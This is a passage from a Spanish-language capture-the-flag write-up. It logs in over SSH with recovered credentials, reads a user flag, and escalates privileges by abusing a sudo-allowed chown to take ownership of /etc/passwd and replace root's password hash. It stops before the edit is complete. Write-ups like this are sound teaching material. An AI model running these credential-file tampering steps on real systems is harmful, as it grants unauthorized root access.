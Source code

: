 Vemos que sacamos las credenciales de `less`, por lo que haremos lo siguiente.

## SSH user less

```shell
ssh less@<IP>
```

Metemos la contraseña obtenida y ya estariamos dentro, por lo que leeremos la flag.

> user.txt

```
381484fa9a5dfc3f62f0883a1297700c
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for less on be541860503e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User less may run the following commands on be541860503e:
    (ALL : ALL) NOPASSWD: /bin/chown
```

Vemos que podemos ejecutar como `root` el binario `chown` por lo que haremos lo siguiente.

```shell
sudo chown less:less /etc/passwd
```

Ahora en nuestro host generamos una contraseña para implementarle a `root` en el archivo `passwd` de la siguiente forma.

```shell
openssl passwd -6 '1234'
```

Info:

```
$6$/6tlJOl0i8/AdQok$IFeQVcqfzNLsWPiv7Q14tXtEi2uKehCNSKO8AagiKPqFU7lx2hDgwFs02OxGTXScpB7jRQMqs9zagrmNk19s6.
```

Ese texto generado, lo tendremos que sustituir por la `x` donde esta el usuario `root` de la siguiente forma.

```shell
nano /etc/passwd
```

De estar asi:

```
root:x:0:0:root:/root:/bin/bash
```
